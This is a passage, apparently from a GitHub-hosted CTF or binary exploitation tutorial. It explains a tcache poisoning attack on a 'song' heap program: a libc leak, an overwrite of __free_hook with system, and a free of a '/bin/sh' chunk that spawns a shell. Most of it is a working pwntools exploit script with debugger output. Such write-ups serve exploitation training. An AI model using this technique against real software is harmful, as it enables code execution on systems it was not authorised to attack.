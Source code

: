   ```
7. **Allocate two small chunks**: Allocate two small chunks of the same size (0x20 bytes). The first allocation will return a normal chunk we will put `/bin/sh` inside to use it after, and the second allocation will return a chunk at the address of `__free_hook`. (offset 8, 9)
8. **Overwrite `__free_hook`**: Edit the allocated chunk to overwrite `__free_hook` with the address of `system` (calculated using the libc base address)
9. **Trigger the exploit**: Free the allocated chunk (which contains `/bin/sh`). This will call `system("/bin/sh")`, giving you a shell.

### Example

```python
from pwn import *

bin_size = 10

add_song(p, 0x450, b'AA') # idx 0
add_song(p, 0x450, b'AA') # idx 1

delete_song(p, 0)

leak = view_song(p, 0) # leak main arena

libc.address = u64(leak.ljust(8, b'\x00')) - 0x1ecbe0 # get libc base

# allocate 3 chunks
for i in range(3):
    add_song(p, bin_size, b'A' * 10) # idx from 3 to 5

for j in range(3):
    delete_song(p, j + 2) # free from idx 3 to 5

"""
Tcachebins[idx=0, size=0x20, count=3] ←  Chunk(addr=0x5c4fd62462e0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) (IDX 5)  ←  Chunk(addr=0x5c4fd62462c0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) (IDX 4)  ←  Chunk(addr=0x5c4fd62462a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) (IDX 3)
"""

# Overwrite the backward pointer of the last freed chunk to point to __free_hook
edit_song(p, 4, 10, p64(libc.symbols['__free_hook'])) # edit idx 4 FD to __free_hook

"""
Tcachebins[idx=0, size=0x20, count=2] ←  Chunk(addr=0x5c4fd62462e0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) (IDX 5)  ←  Chunk(addr=0x762a20ff7e48, size=0x0, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) (IDX 4)
"""
# We can see that the FD pointer of the chunk at idx 4 now points to __free_hook

add_song(p, bin_size, b'/bin/sh\x00') # idx 6 -> returns the chunk at idx 5 from the tcache

add_song(p, bin_size, p64(libc.symbols['system'])) # idx 7 -> __free_hook = system -> returns chunk at idx 4 from the tcache

delete_song(p, 5) # trigger __free_hook -> free("/bin/sh") -> system("/bin/sh")

p.interactive()
```
```
